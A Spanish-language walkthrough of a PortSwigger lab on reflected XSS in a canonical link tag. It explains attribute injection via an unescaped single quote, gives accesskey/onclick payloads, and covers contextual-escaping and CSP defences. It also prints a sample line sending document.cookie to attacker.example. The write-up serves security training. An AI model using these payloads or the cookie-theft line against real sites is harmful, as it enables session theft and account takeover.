


# Lab 31 — Reflected XSS in canonical link tag

**Categoría:** Cross-site scripting  
**Tipo:** Reflected XSS en contexto de atributo HTML  
**Laboratorio de PortSwigger:** `Reflected XSS in canonical link tag`  
**URL del lab:** `https://portswigger.net/web-security/cross-site-scripting/contexts/lab-canonical-link-tag`

---

## 0. Objetivo del laboratorio

El laboratorio indica lo siguiente:

> Este laboratorio refleja la entrada del usuario dentro de una etiqueta canonical (`link rel="canonical"`) y escapa los signos de menor y mayor (`<` y `>`).  
> Para resolver el laboratorio, realiza un ataque de cross-site scripting en la página principal que inyecte un atributo que invoque la función `alert()`.

Además, el laboratorio nos da una pista muy importante:

> Puedes asumir que el usuario simulado presionará estas combinaciones de teclas:
>
> - `ALT + SHIFT + X`
> - `CTRL + ALT + X`
> - `ALT + X`
>
> La solución prevista solo funciona en Google Chrome.

La solución final consiste en inyectar atributos dentro de una etiqueta existente:

```text
?'accesskey='x'onclick='alert(1)
```

Codificado para URL:

```text
?%27accesskey=%27x%27onclick=%27alert(1)
```

---

## 1. Qué tipo de XSS es este laboratorio

Este laboratorio NO va de inyectar una etiqueta nueva como:

```html
<script>alert(1)</script>
```

Tampoco va de inyectar una etiqueta visual como:

```html

```

Este laboratorio va de algo más específico:

> **XSS reflejado dentro de un atributo HTML ya existente.**

La aplicación genera una etiqueta de este estilo:

```html
<link rel="canonical" href='https://LAB.web-security-academy.net/INPUT_DEL_USUARIO'/>
```

Nuestro input se refleja dentro del atributo `href`.

Eso cambia por completo la forma de atacar. No estamos en un contexto de HTML libre, sino dentro de un atributo delimitado por comillas simples:

```html
href='AQUÍ_DENTRO'
```

La pregunta importante no es:

> “¿Puedo meter `<script>`?”

La pregunta correcta es:

> “¿Puedo cerrar el atributo actual y crear atributos nuevos?”

Y la respuesta es sí.

---

## 2. Qué es una etiqueta canonical

Una etiqueta canonical es una etiqueta HTML usada principalmente para SEO.

Ejemplo:

```html
<link rel="canonical" href="https://example.com/producto">
```

Sirve para indicar a buscadores como Google cuál es la URL oficial o canónica de una página.

### Ejemplo sencillo

Imagina que una misma página puede abrirse desde varias URLs:

```text
https://web.com/producto
https://web.com/producto?ref=ads
https://web.com/producto?utm=google
```

Todas muestran el mismo contenido, pero para evitar contenido duplicado, el desarrollador puede poner:

```html
<link rel="canonical" href="https://web.com/producto">
```

Con eso le dice al buscador:

> “Aunque esta página se pueda visitar con parámetros distintos, la URL oficial es esta.”

### Por qué es relevante para XSS

Porque esta etiqueta contiene un atributo `href`, y ese atributo contiene una URL.

En este laboratorio, la aplicación construye la etiqueta canonical usando la URL actual. Es decir, si visitas:

```text
https://LAB.web-security-academy.net/?pepe
```

la aplicación genera algo parecido a:

```html
<link rel="canonical" href='https://LAB.web-security-academy.net/?pepe'/>
```

Tu input `?pepe` queda reflejado dentro del `href`.

Ese es el punto de entrada.

---

## 3. Dónde se encuentra la etiqueta canonical

La etiqueta `<link rel="canonical">` normalmente está dentro del `<head>` del documento HTML.

Estructura general:

```html
<html>
  <head>
    <title>...</title>
    <link rel="canonical" href="...">
  </head>
  <body>
    ...
  </body>
</html>
```

El `<head>` contiene información de la página, pero no contenido visible directamente para el usuario.

Dentro del `<head>` suele haber:

- `<title>`
- `<meta>`
- `<link rel="stylesheet">`
- `<link rel="canonical">`
- referencias a CSS
- referencias a favicon
- scripts

### Punto importante

Que algo esté dentro de `<head>` no significa que el navegador lo ignore.

Significa que:

- no se muestra visualmente como parte del cuerpo de la página;
- pero el navegador sí lo parsea;
- sí lo convierte en nodos DOM;
- sí procesa sus atributos;
- y algunos eventos pueden asociarse a esos nodos.

Por eso este laboratorio es interesante: el elemento vulnerable no se ve en pantalla, pero existe.

---

## 4. Diferencia entre ver la página y ver el código fuente

Cuando abres la página normal, no ves nada raro.

Por ejemplo, al visitar:

```text
https://LAB.web-security-academy.net/?pepe
```

visualmente parece que no pasa nada.

Pero si inspeccionas el código fuente con `Ctrl + U`, ves algo como:

```html
<link rel="canonical" href='https://0a9900d004c5842d82820b3600500029.web-security-academy.net/?pepe'/>
```

Eso demuestra que el input sí se refleja.

La clave aquí es esta:

> La vulnerabilidad no está en algo visible, sino en algo reflejado en el HTML interno de la página.

Por eso, en XSS, mirar solo lo que se ve en pantalla es insuficiente. Hay que mirar:

- código fuente (`Ctrl + U`);
- DOM renderizado (`F12` → Elements);
- diferencias entre HTML original y DOM final;
- atributos;
- scripts;
- etiquetas en `<head>`.

---

## 5. Contexto exacto de inyección

El input está dentro de un atributo:

```html
href='https://LAB/?INPUT'
```

Eso significa que estamos dentro de un contexto de atributo HTML con comillas simples.

La estructura es:

```html
<link rel="canonical" href='VALOR_DEL_HREF'/>
```

El delimitador del atributo es `'`.

Por tanto, para salir de ese atributo, necesitamos inyectar una comilla simple `'`.

Si el atributo estuviera así:

```html
href="VALOR"
```

necesitaríamos una comilla doble `"`.

Pero en este laboratorio, el código fuente muestra:

```html
href='...'
```

Así que el carácter que rompe el atributo es:

```text
'
```

---

## 6. Por qué no funciona `<script>alert(1)</script>`

El laboratorio indica que los signos `<` y `>` están escapados.

Eso significa que si intentas inyectar:

```html
<script>alert(1)</script>
```

la aplicación no lo devuelve como HTML real, sino como texto codificado:

```html
&lt;script&gt;alert(1)&lt;/script&gt;
```

### Qué significa `&lt;` y `&gt;`

Son entidades HTML:

| Entidad | Carácter real |
|---|---|
| `&lt;` | `<` |
| `&gt;` | `>` |

Si el navegador recibe esto:

```html
&lt;script&gt;alert(1)&lt;/script&gt;
```

no crea una etiqueta `<script>`. Simplemente muestra el texto:

```text
<script>alert(1)</script>
```

Por tanto, el payload clásico no sirve.

### Error mental típico

Muchos piensan:

> “Si `<` y `>` están codificados, ya no hay XSS.”

Eso es falso.

Escapar `<` y `>` protege principalmente contra creación de etiquetas nuevas.

Pero aquí no necesitamos crear una etiqueta nueva.

Ya existe una etiqueta:

```html
<link ...>
```

Lo que hacemos es modificar sus atributos.

Por eso este laboratorio enseña algo importante:

> **La defensa debe ser contextual. No basta con escapar `<` y `>`.**

---

## 7. HTML Encoding no es lo mismo en todos los contextos

Para proteger HTML correctamente, hay que escapar según el contexto.

No es lo mismo reflejar input en:

### Contexto de texto HTML

```html
<p>AQUÍ</p>
```

Aquí se deben escapar al menos:

```text
< > &
```

### Contexto de atributo HTML

```html
<input value='AQUÍ'>
```

Aquí se deben escapar además:

```text
' "
```

Porque las comillas pueden cerrar el atributo.

### Contexto JavaScript

```html
<script>
var x = 'AQUÍ';
</script>
```

Aquí hay que escapar:

```text
' " \ \n </script>
```

### Contexto URL

```html
<a href="AQUÍ">
```

Aquí hay que validar esquema (`http`, `https`) y codificar adecuadamente.

En este laboratorio, el fallo está en que la aplicación escapa `<` y `>`, pero no escapa la comilla simple `'`.

Ese es el agujero.

---

## 8. Prueba inicial: reflejar un texto simple

Primero añadimos algo inofensivo al final de la URL:

```text
/?pepe
```

La página visualmente no cambia.

Pero en el código fuente aparece:

```html
<link rel="canonical" href='https://LAB.web-security-academy.net/?pepe'/>
```

Esto confirma:

1. La URL actual se usa para construir el canonical.
2. Nuestro input entra en el atributo `href`.
3. La reflexión ocurre dentro de `<head>`.
4. El input está delimitado por comillas simples.
5. El punto de ataque es viable si podemos romper la comilla.

---

## 9. Prueba de escape del atributo

Payload de prueba:

```text
?'onclick='alert(1)'
```

Resultado conceptual:

```html
<link rel="canonical" href='https://LAB/?'onclick='alert(1)'/>
```

Esto demuestra que la comilla simple funciona.

La estructura queda así:

```html
<link
  rel="canonical"
  href='https://LAB/?'
  onclick='alert(1)'
/>
```

Hemos creado un nuevo atributo:

```html
onclick='alert(1)'
```

Eso es una victoria parcial.

Pero todavía no hemos resuelto el lab.

---

## 10. Por qué `onclick` solo no basta

Aunque hemos inyectado:

```html
onclick='alert(1)'
```

la etiqueta vulnerable está dentro del `<head>`:

```html
<head>
  <link rel="canonical" ... onclick='alert(1)'>
</head>
```

El problema es que:

- el `<link>` no se ve;
- no ocupa una zona visible de la pantalla;
- no puedes poner el ratón encima;
- no puedes hacer click de forma normal;
- no hay interacción visual directa con ese nodo.

Entonces, aunque el atributo `onclick` exista, no tenemos una forma normal de activarlo.

Necesitamos convertir ese elemento invisible en algo activable.

Aquí entra `accesskey`.

---

## 11. Qué es `accesskey`

`accesskey` es un atributo HTML global.

Permite asignar una tecla rápida a un elemento.

Ejemplo:

```html
<button accesskey="x" onclick="alert(1)">Click</button>
```

En ciertos navegadores, si el usuario pulsa una combinación como:

```text
ALT + X
```

el navegador activa el elemento asociado a `accesskey="x"`.

La combinación concreta depende del navegador y del sistema operativo.

PortSwigger nos ayuda diciendo que el usuario simulado pulsará:

```text
ALT + SHIFT + X
CTRL + ALT + X
ALT + X
```

Y nos indica que la solución prevista funciona en Chrome.

Eso no es casualidad. Es una pista directa.

---

## 12. Por qué `accesskey` permite atacar un elemento invisible

Normalmente, para ejecutar `onclick`, alguien tiene que hacer click.

Pero con `accesskey`, el navegador puede activar el elemento por teclado.

El flujo es:

```text
Usuario pulsa combinación de accesskey
        ↓
Chrome busca elemento con accesskey="x"
        ↓
Chrome activa ese elemento
        ↓
Se dispara el evento click/activation
        ↓
Se ejecuta onclick
        ↓
alert(1)
```

Aunque el elemento esté en `<head>`, Chrome sigue teniendo un nodo DOM con esos atributos.

El elemento no es visible, pero el navegador puede asociarlo a una tecla rápida.

La clave es esta:

> **No hacemos click físico sobre el elemento. Hacemos que Chrome lo active por teclado.**

---

## 13. Payload final

Payload sin codificar:

```text
?'accesskey='x'onclick='alert(1)
```

URL codificada:

```text
?%27accesskey=%27x%27onclick=%27alert(1)
```

La versión codificada es necesaria porque en una URL real, ciertos caracteres pueden tener significados especiales.

- `'` se codifica como `%27`
- espacios normalmente como `%20` o `+`
- paréntesis pueden quedarse sin codificar en este caso, aunque también podrían codificarse

URL final aproximada:

```text
https://LAB.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)
```

---

## 14. Cómo queda el HTML después de la inyección

Antes:

```html
<link rel="canonical" href='https://LAB.web-security-academy.net/'/>
```

Con `?pepe`:

```html
<link rel="canonical" href='https://LAB.web-security-academy.net/?pepe'/>
```

Con el payload:

```html
<link rel="canonical" href='https://LAB.web-security-academy.net/?'accesskey='x'onclick='alert(1)'/>
```

Interpretación del navegador:

```html
<link
  rel="canonical"
  href='https://LAB.web-security-academy.net/?'
  accesskey='x'
  onclick='alert(1)'
/>
```

Esto es lo importante:

- `href` queda cerrado antes de tiempo.
- Se crea `accesskey='x'`.
- Se crea `onclick='alert(1)'`.
- El resto queda suficientemente válido para que el parser no rompa el documento.

---

## 15. Por qué el payload no necesita cerrar al final con otra comilla perfecta

El payload:

```text
?'accesskey='x'onclick='alert(1)
```

puede parecer “incompleto”, porque no cierra explícitamente todo de forma limpia.

Pero el HTML original aporta el cierre final:

```html
'/>
```

Es decir, la plantilla del servidor completa parte de la estructura.

El navegador es tolerante con HTML mal formado. El parser HTML intenta construir un DOM razonable incluso si el markup no es perfecto.

Esto es importante:

> En XSS, no siempre necesitas generar HTML bonito. Necesitas generar HTML que el navegador interprete de forma útil.

Los navegadores son muy permisivos con HTML.

---

## 16. HTML parser: qué ocurre internamente

Cuando el navegador recibe la respuesta, no “lee HTML como texto plano”. Lo parsea.

El proceso simplificado es:

1. **Tokenization:** convierte caracteres en tokens.
2. **Tree construction:** construye nodos DOM.
3. **Attribute parsing:** asigna atributos a elementos.
4. **Event handler compilation:** compila atributos tipo `onclick` como manejadores JS.
5. **Render/processing:** procesa el documento.

En este caso, durante el parseo de atributos, el navegador encuentra:

```html
href='https://LAB/?'
accesskey='x'
onclick='alert(1)'
```

Y construye un nodo `HTMLLinkElement` con esos atributos.

Aunque esté en `<head>`, el atributo `onclick` queda registrado.

---

## 17. Diferencia entre HTML original y DOM final

El código fuente puede verse así:

```html
<link rel="canonical" href='https://LAB/?'accesskey='x'onclick='alert(1)'/>
```

Pero el DOM final puede estructurarse conceptualmente así:

```text
HTMLLinkElement
 ├── rel = canonical
 ├── href = https://LAB/?
 ├── accesskey = x
 └── onclick = alert(1)
```

El navegador no trabaja con “la línea original” tal cual. Trabaja con el árbol DOM resultante.

Por eso, en XSS, hay que entender el DOM final, no solo el texto.

---

## 18. Por qué la solución es específica de Chrome

El comportamiento de `accesskey` no es exactamente igual en todos los navegadores.

Chrome tiende a activar el elemento asociado y disparar eventos de activación compatibles con el objetivo del lab.

Otros navegadores pueden:

- enfocar el elemento pero no disparar `onclick`;
- ignorar `accesskey` en ciertos elementos;
- usar otra combinación;
- no activar elementos dentro de `<head>`;
- comportarse diferente según sistema operativo.

PortSwigger lo indica explícitamente:

> La solución prevista solo es posible en Google Chrome.

Eso significa que el lab depende de un comportamiento concreto de Chrome.

No es un bug de Chrome necesariamente. Es una diferencia de implementación explotable en este contexto.

---

## 19. Por qué no usamos `onmouseover`, `onerror`, `onload`, etc.

Eventos como:

```html
onmouseover
onerror
onload
onfocus
```

no son igual de útiles aquí.

### `onmouseover`

Necesita pasar el ratón por encima del elemento.

Pero `<link>` está en `<head>` y no es visible.

### `onerror`

Suele funcionar con recursos como imágenes:

```html

```

Pero no estamos creando una etiqueta ``, y además `<` y `>` están escapados.

### `onload`

No siempre se dispara en `<link rel="canonical">`. Además no controlamos un recurso cargable como una hoja CSS.

### `onfocus`

Podría parecer interesante, pero el lab nos da explícitamente la vía del `accesskey` y la activación por teclado.

El patrón previsto es:

```html
accesskey='x' onclick='alert(1)'
```

---

## 20. Por qué no hay exploit server en este lab

En otros labs de XSS, PortSwigger ofrece un exploit server porque hay que enviar un payload a una víctima simulada.

En este lab, la propia página principal se puede usar directamente con una URL maliciosa.

Además, el usuario simulado ya está configurado para pulsar una combinación de teclas.

Por eso no hace falta montar un iframe ni un exploit server.

El vector es la URL final:

```text
https://LAB.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)
```

---

## 21. Práctica completa paso a paso

### Paso 1 — Abrir el laboratorio

Abrimos el lab y aparece una página tipo blog.

Imagen 1:


A simple vista no hay buscador ni formulario vulnerable.

Eso ya nos diferencia de labs anteriores: aquí no vamos a usar un campo visible, sino la URL.

---

### Paso 2 — Probar reflexión con `?pepe`

Añadimos al final de la URL:

```text
/?pepe
```

Visualmente no ocurre nada.

Pero al mirar el código fuente (`Ctrl + U`) vemos:

```html
<link rel="canonical" href='https://0a9900d004c5842d82820b3600500029.web-security-academy.net/?pepe'/>
```

Conclusión:

- la URL se refleja;
- la reflexión ocurre en el canonical;
- está dentro del atributo `href`;
- usa comillas simples;
- el input se encuentra en un contexto explotable.

---

### Paso 3 — Confirmar que podemos romper el atributo

Probamos:

```text
?'onclick='alert(1)'
```

En el código fuente aparece conceptualmente:

```html
<link rel="canonical" href='https://LAB/?'onclick='alert(1)'/>
```

Eso confirma que:

- la comilla simple no se escapa;
- podemos cerrar el atributo `href`;
- podemos crear un atributo nuevo;
- el problema no es creación de tags, sino inyección de atributos.

Pero todavía no se ejecuta porque no podemos hacer click sobre un `<link>` en `<head>`.

---

### Paso 4 — Añadir `accesskey`

Payload:

```text
?'accesskey='x'onclick='alert(1)
```

Codificado:

```text
?%27accesskey=%27x%27onclick=%27alert(1)
```

Resultado conceptual:

```html
<link
  rel="canonical"
  href='https://LAB/?'
  accesskey='x'
  onclick='alert(1)'
/>
```

Ahora el elemento tiene:

```html
accesskey='x'
```

y:

```html
onclick='alert(1)'
```

---

### Paso 5 — Activar el accesskey

En Chrome, pulsamos una de las combinaciones indicadas:

```text
ALT + X
```

o según entorno:

```text
ALT + SHIFT + X
CTRL + ALT + X
```

Al activarse el accesskey, se dispara `onclick`.

Aparece el popup:



---

### Paso 6 — Laboratorio resuelto

Después de ejecutar `alert(1)`, el laboratorio aparece como resuelto:



---

## 22. Por qué el orden de atributos no importa demasiado

Podríamos pensar que el payload debe quedar en un orden exacto.

Pero en HTML, el orden de atributos normalmente no afecta.

Esto:

```html
<link rel="canonical" href='...' accesskey='x' onclick='alert(1)'>
```

y esto:

```html
<link onclick='alert(1)' accesskey='x' href='...' rel='canonical'>
```

son equivalentes en cuanto a los atributos del nodo.

Lo importante es que existan:

```html
accesskey='x'
onclick='alert(1)'
```

y que el parser los asigne al mismo elemento.

---

## 23. Variantes del payload

### Variante principal

```text
?'accesskey='x'onclick='alert(1)
```

### Variante URL-encoded

```text
?%27accesskey=%27x%27onclick=%27alert(1)
```

### Variante con comillas finales explícitas

```text
?'accesskey='x'onclick='alert(1)'
```

Puede funcionar o no dependiendo de cómo quede el cierre original del atributo. En este lab la versión prevista suele ser sin la última comilla manual.

### Variante con otro accesskey

```text
?'accesskey='y'onclick='alert(1)
```

Pero no sería útil si el usuario simulado solo pulsa combinaciones con `X`.

### Variante conceptual con otro handler

```text
?'accesskey='x'onfocus='alert(1)
```

No es la solución prevista. Puede no dispararse con la activación del accesskey en este contexto.

---

## 24. Por qué `alert(1)` resuelve el lab

PortSwigger detecta la ejecución de `alert()` como prueba de XSS.

En este laboratorio pide invocar `alert()`.

No hace falta robar cookies ni ejecutar acciones complejas.

Con:

```js
alert(1)
```

se demuestra que JavaScript controlado por el atacante se ejecuta en el origen del laboratorio.

---

## 25. Riesgo real de esta vulnerabilidad

Aunque el laboratorio use `alert(1)`, en un escenario real un atacante podría usar el mismo punto de ejecución para:

- robar tokens accesibles desde JavaScript;
- leer datos sensibles del DOM;
- modificar contenido de la página;
- hacer acciones como el usuario;
- lanzar phishing dentro del mismo origen;
- manipular formularios;
- hacer peticiones autenticadas desde la sesión de la víctima.

Ejemplo conceptual:

```js
fetch('https://attacker.example/log?c=' + encodeURIComponent(document.cookie))
```

Si las cookies no tienen `HttpOnly`, podrían exfiltrarse.

Si las cookies tienen `HttpOnly`, aún podrían realizarse acciones autenticadas mediante peticiones desde el navegador de la víctima.

---

## 26. Diferencia con XSS reflejado clásico

En un XSS reflejado clásico:

```text
/search?q=<script>alert(1)</script>
```

El servidor devuelve:

```html
<h1>Resultados para <script>alert(1)</script></h1>
```

El navegador ejecuta la etiqueta.

Aquí no.

Aquí el ataque es:

```html
<link rel="canonical" href='https://LAB/?'accesskey='x'onclick='alert(1)'/>
```

No se crea una nueva etiqueta.

Se modifica una etiqueta existente.

Resumen:

| XSS clásico | Este laboratorio |
|---|---|
| Inyecta una etiqueta nueva | Inyecta atributos |
| Usa `<script>` o `` | Usa `accesskey` + `onclick` |
| Contexto visible normalmente | Contexto invisible en `<head>` |
| Se activa al renderizar | Se activa con accesskey |
| Depende de no escapar `< >` | Depende de no escapar `'` |

---

## 27. Diferencia entre tag injection y attribute injection

### Tag injection

Consiste en crear una etiqueta nueva:

```html

```

Necesita `<` y `>`.

Si `<` y `>` están escapados, falla.

### Attribute injection

Consiste en salir de un atributo y crear otro:

```html
value='' autofocus onfocus='alert(1)'
```

o en este lab:

```html
href='...' accesskey='x' onclick='alert(1)'
```

No necesita crear una etiqueta nueva.

Solo necesita romper el delimitador del atributo.

Por eso escapar `<` y `>` no basta.

---

## 28. Por qué la comilla simple es el carácter crítico

El HTML original usa:

```html
href='...'
```

El delimitador es `'`.

Eso significa:

```text
'  → cierra el atributo
```

Si el servidor hubiera usado comillas dobles:

```html
href="..."
```

entonces el payload con `'` no rompería nada.

Necesitarías:

```text
"accesskey="x"onclick="alert(1)
```

Por eso siempre hay que mirar el contexto exacto en el código fuente.

No se debe atacar a ciegas.

---

## 29. Qué habría pasado si la aplicación escapara `'`

Si el servidor transformara:

```text
'
```

en:

```html
&#x27;
```

o:

```html
&#39;
```

el payload quedaría dentro del atributo `href` como texto.

Ejemplo seguro:

```html
<link rel="canonical" href='https://LAB/?&#x27;accesskey=&#x27;x&#x27;onclick=&#x27;alert(1)'/>
```

El navegador no lo interpretaría como atributos nuevos.

El ataque fallaría.

---

## 30. Defensa correcta

La defensa correcta NO es solo bloquear `<script>`.

Tampoco es solo escapar `<` y `>`.

La defensa correcta depende del contexto.

### 30.1. Si se refleja input dentro de un atributo HTML

Escapar:

```text
&
<
>
"
'
```

Ejemplo:

```text
' → &#x27;
" → &quot;
< → &lt;
> → &gt;
& → &amp;
```

### 30.2. Evitar reflejar la URL completa sin normalizar

El canonical debería generarse desde una URL conocida y controlada por servidor, no concatenando input del usuario.

Mala idea:

```pseudo
canonical = "https://host/" + request.query_string
```

Mejor:

```pseudo
canonical = "https://host/"
```

o usar un constructor seguro de URLs.

### 30.3. Validar estructura

Si el canonical solo debe apuntar a la página principal, no debería incluir parámetros arbitrarios.

### 30.4. CSP

Una política CSP fuerte puede mitigar el impacto:

```http
Content-Security-Policy: script-src 'self'; object-src 'none'; base-uri 'none'
```

Pero ojo: si se permiten inline handlers (`onclick`), CSP débil no ayuda.

Para bloquear `onclick`, habría que evitar `unsafe-inline`.

### 30.5. No confiar en WAF

Un WAF puede bloquear `<script>`, pero este ataque no necesita `<script>`.

El problema está en la construcción insegura del HTML.

---

## 31. Lección clave del laboratorio

Este laboratorio enseña varias ideas importantes:

1. XSS no siempre necesita `<script>`.
2. XSS no siempre ocurre en el `<body>`.
3. Un elemento invisible puede ser explotable.
4. Escapar `<` y `>` no basta en contexto de atributo.
5. Hay que mirar el delimitador real (`'` o `"`).
6. `accesskey` puede convertir elementos invisibles en elementos activables.
7. Chrome tiene comportamientos específicos que pueden ser explotables.
8. La defensa debe ser contextual, no genérica.

La frase clave:

> **No estamos creando código JavaScript desde cero. Estamos manipulando el HTML existente para que el navegador construya un nodo con un manejador de eventos ejecutable.**

---

## 32. Resumen final del ataque

Payload:

```text
?'accesskey='x'onclick='alert(1)
```

HTML resultante:

```html
<link rel="canonical"
      href='https://LAB/?'
      accesskey='x'
      onclick='alert(1)'/>
```

Activación:

```text
ALT + X
```

Resultado:

```js
alert(1)
```

Laboratorio resuelto.

---

## 33. Checklist mental para detectar este tipo de XSS

Cuando veas un input reflejado:

1. ¿Dónde se refleja?
   - texto HTML
   - atributo HTML
   - JavaScript
   - URL
   - CSS

2. ¿Qué delimitador usa?
   - `'`
   - `"`
   - ninguno

3. ¿Qué caracteres se escapan?
   - `<`
   - `>`
   - comillas
   - ampersand

4. ¿Puedo cerrar el contexto?

5. ¿Puedo crear un atributo nuevo?

6. ¿Ese atributo puede ejecutar JavaScript?

7. ¿Necesito interacción?

8. ¿Puedo forzar la interacción con teclado, autofocus, onload, resize, etc.?

Este lab se resuelve porque:

- contexto: atributo HTML;
- delimitador: comilla simple;
- fallo: la comilla simple no se escapa;
- ejecución: `onclick`;
- activación: `accesskey`.

---

## 34. Imágenes del laboratorio

### Imagen 1 — Página inicial


### Imagen 2 — Laboratorio resuelto


### Imagen 3 — Alert ejecutado


